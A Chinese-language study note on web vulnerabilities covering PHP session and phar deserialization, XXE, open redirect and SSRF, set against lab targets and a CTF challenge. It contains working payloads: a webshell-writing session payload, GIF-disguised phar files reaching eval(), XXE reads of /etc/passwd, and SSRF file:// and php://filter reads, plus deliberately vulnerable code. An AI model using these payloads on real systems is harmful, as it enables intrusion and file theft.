

- php.ini与session存储配置相关的配置项
    - session.save_path=""   --设置session的存储路径,默认在/tmp
    - session.auto_start   --指定会话模块是否在请求开始时启动一个会话,默认为0不启动
    - session.serialize_handler   --定义用来序列化/反序列化的处理器名字。默认使用php
```php
<?php
ini_set('session.serialize_handler','php_serialize');
session_start();
$_SESSION['kite'] = $_GET['kite'];
```
- session.save_path对应路径下会生成一个文件，名称例如:sess_1ja9n59ssk975tff3r0b2sojd5
- 存储内容为a:1:{s:4:"kite";s:3:"123";}


```php
# index.php
<?php 
error_reporting(0);
ini_set('session.serialize_handler','php');
session_start();
 
class Nantong{
    var $nan;
    function __destruct(){
        $fp = fopen("F:\phpstudy_pro\WWW\shellcode.php","w");
        fputs($fp,$this->nan);
        fclose($fp);
    }
}
highlight_file(__FILE__);
?> 

```

```php
# session.php
<?php
error_reporting(0);
ini_set('session.serialize_handler','php_serialize');
session_start();
$_SESSION['kite'] = $_GET['kite'];
highlight_file(__FILE__);
?>

payload: session.php?kite=|O:7:"Nantong":1:{s:3:"nan";s:18:"<?php%20phpinfo();?>";}";}
之后再访问test.php
```


## phar反序列化
### phar文件结构
- phar文件是一种压缩文件、在PHP手册中可以看到各个数据块的信息
- phar的文件的读取是通过phar协议读取的、在读取phar文件的时候，文件内容会转换未对象，Meata-dara数据块的内容会被反序列化、

-四个部分
```
1. a stub 
一个标志，格式为xxx<?php xxx; __HALT_COMPILER();?>,前面内容不限，但必须以__HALT_COMPILER();?>来结尾，否则phar扩展将无法识别这个文件为phar文件。

2. manifest
phar文件本质上是一种压缩文件，其中每个被压缩文件的权限、属性等信息都放在这部分。这部分还会以序列化的形式存储用户自定义的meta-data，这里即为反序列化漏洞点。

3. contents
压缩文件的内容

4. signature
文件的签名内容
```

### demo 测试
- phar文件的制作可以使用php内置的Phar类来实现
- php.ini的phar.readonly设置为Off，否则无法生成phar文件
```php
<?php
    class TestObject {
    }

    @unlink("phar.phar");
    $phar = new Phar("phar.phar"); //后缀名必须为phar
    $phar->startBuffering();
    $phar->setStub("<?php __HALT_COMPILER(); ?>"); //设置stub
    $o = new TestObject();
    $phar->setMetadata($o); //将自定义的meta-data存入manifest
    $phar->addFromString("test.txt", "test"); //添加要压缩的文件
    //签名自动计算
    $phar->stopBuffering();
?>
```

### phar伪装其它格式文件
- php识别phar文件是通过其文件头的stub，更确切一点来说是__HALT_COMPILER();?>这段代码，对前面的内容或者后缀名是没有要求的。那么我们就可以通过添加任意的文件头+修改后缀名的方式将phar文件伪装成其他格式的文件。

```php
<?php
class TestObject {
    var $file = "phpinfo();";
}

@unlink("kite.phar");
$phar = new Phar("kite.phar");
$phar->startBuffering();
$phar->setStub("GIF89a"."<?php __HALT_COMPILER(); ?>"); //设置stub，增加gif文件头
$o = new TestObject();
$phar->setMetadata($o); //将自定义meta-data存入manifest
$phar->addFromString("test.txt", "test"); //添加要压缩的文件
//签名自动计算
$phar->stopBuffering();
?>
```

- 可以看到meta-data是以序列化的形式存储的，采用这种方法可以绕过很大一部分上传检测。

### phar://

- 有序列化数据必然会有反序列化操作，php一大部分的文件系统函数在通过phar://伪协议解析phar文件时，都会将meta-data进行反序列化，测试后受影响的函数如下：


### demo 测试
```php
<?php
class TestObject{
    function __destruct()
    {
        echo $this -> file;   // TODO: Implement __destruct() method.
    }
}
include('phar://kite.phar');
?>
```


### 漏洞利用
- phar文件能够上传到服务端
- 目标有file_exists(),fopen(),file_get_contents,file()等文件操作的函数
- 要有可用的魔术方法作为"跳板"
- 文件操作函数的参数可控，且/、phar等特殊字符没有被过滤

### 实战 CTF
```php
#upload_file.php
?php
if (($_FILES["file"]["type"]=="image/gif")&&(substr($_FILES["file"]["name"], strrpos($_FILES["file"]["name"], '.')+1))== 'gif') {
    echo "Upload: " . $_FILES["file"]["name"];
    echo "Type: " . $_FILES["file"]["type"];
    echo "Temp file: " . $_FILES["file"]["tmp_name"];

    if (file_exists("upload_file/" . $_FILES["file"]["name"]))
    {
        echo $_FILES["file"]["name"] . " already exists. ";
    }
    else
    {
        move_uploaded_file($_FILES["file"]["tmp_name"],
            "upload_file/" .$_FILES["file"]["name"]);
        echo "Stored in: " . "upload_file/" . $_FILES["file"]["name"];
    }
}
else
{
    echo "Invalid file,you can only upload gif";
}
```

```php
# upload_file.html
<body>
<form action="http://127.0.0.1/test/upload_file.php" method="post" enctype="multipart/form-data">
    <input type="file" name="file" />
    <input type="submit" name="Upload" />
</form>
</body>
```

```php
# file_un.php
<?php
$filename=$_GET['filename'];
class AnyClass{
    var $output = 'echo "ok";';
    function __destruct()
    {
        eval($this -> output);
    }
}
file_exists($filename);
```

解法：(然后改为后缀名为gif)
```php
<?php
class AnyClass{
    var $output = 'echo "ok";';
    function __destruct()
    {
        eval($this -> output);
    }
}
$phar = new Phar('123.phar');
$phar -> stopBuffering();
$phar -> setStub('GIF89a'.'<?php __HALT_COMPILER();?>');
$phar -> addFromString('test.txt','test');
$object = new AnyClass();
$object -> output= 'ls';
$phar -> setMetadata($object);
$phar -> stopBuffering();
?>
```

- 之后访问?filename=phar://upload_file/123.gif


**遇到的一些坑**
- 文件名不能为file.php


## XXE漏洞
- XML是一种可扩展的标记语言，用来存储数据。
- XXE，"xml external entity injection"，即"xml外部实体注入漏洞"。
- 攻击者通过向服务器注入指定的xml实体内容，从而让服务器按照指定的配置进行执行，导致问题
也就是说服务端接收和解析了来自用户端的xml数据，而又没有做严格的安全控制，从而导致xml外部实体注入。

xml基本语法:
```
第一部分：XML声明部分
<?xml version="1.0"?>

第二部分：文档类型定义 DTD
<!DOCTYPE note[ 
<!--定义此文档是note类型的文档-->
<!ENTITY entity-name SYSTEM "URI/URL">
<!--外部实体声明-->
]>

第三部分：文档元素
<note>
<to>Dave</to>
<from>Tom</from>
<head>Reminder</head>
<body>You are a good man</body>
</note>
```
- 其中，DTD（Document Type Definition，文档类型定义），用来为 XML 文档定义语法约束，可以是内部申明也可以使引用外部DTD现在很多语言里面对应的解析xml的函数默认是禁止解析外部实体内容的，从而也就直接避免了这个漏洞。

外部实体引用 Payload
```
内部申明DTD格式
<!DOCTYPE 根元素 [元素申明]>

外部引用DTD格式
<!DOCTYPE 根元素 SYSTEM "外部DTD的URI">

引用公共DTD格式
<!DOCTYPE 根元素 PUBLIC "DTD标识名" "公共DTD的URI">
```

```
<?xml version="1.0"?>

<!DOCTYPE ANY[ 
<!ENTITY f SYSTEM "file:///etc/passwd">
]>

<x>&f;</x>
```

### 漏洞利用
- 利用条件: 在PHP中解析xml用的是libxml，在其≥2.9.0的版本中，是默认禁止解析xml外部实体内容的。(这里为了做实验，已经手动指定LIBXML_NOENT选项开启了xml外部实体解析)

**服务端核心代码**
```php
if(isset($_POST['submit']) and $_POST['xml'] != null){
    $xml =$_POST['xml'];
//    $xml = $test;
    $data = @simplexml_load_string($xml,'SimpleXMLElement',LIBXML_NOENT);
    if($data){
        $html.="<pre>{$data}</pre>";
    }else{
        $html.="<p>XML声明、DTD文档类型定义、文档元素这些都搞懂了吗?</p>";
    }
}
```

payload:(尝试提交如下xml数据)
```xml
<?xml version = "1.0"?>
<!DOCTYPE note [
    <!ENTITY hacker "kite">
]>
<name>&hacker;</name>
```


- linux下读取敏感文件
```xml
<?xml version = "1.0"?>

<!DOCTYPE ANY [
    <!ENTITY f SYSTEM "file:///etc/passwd">

]>

<x>&f;</x>

<?xml version="1.0"?>
<!DOCTYPE Mikasa [
<!ENTITY test SYSTEM  "file:///var/www/html/index.html">
]>
<user><username>&test;</username><password>Mikasa</password></user>
```


## URL重定向

**漏洞描述**

不安全的url跳转

不安全的url跳转问题可能发生在一切执行了url地址跳转的地方。
如果后端采用了前端传进来的(可能是用户传参,或者之前预埋在前端页面的url地址)参数作为了跳转的目的地,而又没有做判断的话
就可能发生"跳错对象"的问题。

url跳转比较直接的危害是:
-->钓鱼,既攻击者使用漏洞方的域名(比如一个比较出名的公司域名往往会让用户放心的点击)做掩盖,而最终跳转的确实钓鱼网站

**漏洞利用**

服务端核心代码
```php
if(isset($_GET['url']) && $_GET['url'] != null){
    $url = $_GET['url'];
    if($url == 'i'){
        $html.="<p>好的,希望你能坚持做你自己!</p>";
    }else {
        header("location:{$url}");
    }
}
```

可见关键代码如下：
``header("location:{$url}");``

payload:http://192.168.10.128:8080/vul/urlredirect/urlredirect.php?url=http://www.baidu.com




## SSRF

**概述**

SSRF(Server-Side Request Forgery:服务器端请求伪造)
其形成的原因大都是由于服务端提供了从其他服务器应用获取数据的功能,但又没有对目标地址做严格过滤与限制

导致攻击者可以传入任意的地址来让后端服务器对其发起请求,并返回对该目标地址请求的数据

数据流:攻击者----->服务器---->目标地址

根据后台使用的函数的不同,对应的影响和利用方法又有不一样
```php
# PHP中下面函数的使用不当会导致SSRF:
file_get_contents()
fsockopen()
curl_exec()
```

如果一定要通过后台服务器远程去对用户指定("或者预埋在前端的请求")的地址进行资源请求,则请做好目标地址的过滤。

### SSRF_Curl

**服务端核心代码**

```php
if(isset($_GET['url']) && $_GET['url'] != null){
    //接收前端URL没问题,但是要做好过滤,如果不做过滤,就会导致SSRF
    $URL = $_GET['url'];
    $CH = curl_init($URL);
    curl_setopt($CH, CURLOPT_HEADER, FALSE);
    curl_setopt($CH, CURLOPT_SSL_VERIFYPEER, FALSE);
    $RES = curl_exec($CH);
    curl_close($CH) ;
//ssrf的流程:前端传进来的url被后台使用curl_exec()进行了请求,然后将请求的结果又返回给了前端.
//除了http/https外,curl还支持一些其他的协议curl --version 可以查看其支持的协议,telnet
//curl支持很多协议,有FTP, FTPS, HTTP, HTTPS, GOPHER, TELNET, DICT, FILE以及LDAP
    echo $RES;
}
```

**漏洞利用**

观察URL如下:
```
http://10.16.102.140/pikachu/vul/ssrf/ssrf_curl.php?url=http://127.0.0.1/pikachu/vul/ssrf/ssrf_info/info1.php
```

尝试Curl百度


### SSRF_File_get_content

**服务端核心代码**

```php
if(isset($_GET['file']) && $_GET['file'] !=null){
    $filename = $_GET['file'];
    $str = file_get_contents($filename);
    echo $str;
}
```

**漏洞利用**

常用payload：
```http
http://192.168.171.133/pikachu/vul/ssrf/ssrf_fgc.php?file=http://192.168.171.129/index.html
http://192.168.171.133/pikachu/vul/ssrf/ssrf_fgc.php?file=file:///C://1.txt
http://192.168.171.133/pikachu/vul/ssrf/ssrf_fgc.php?file=php://filter/read=convert.base64-encode/resource=ssrf.php
```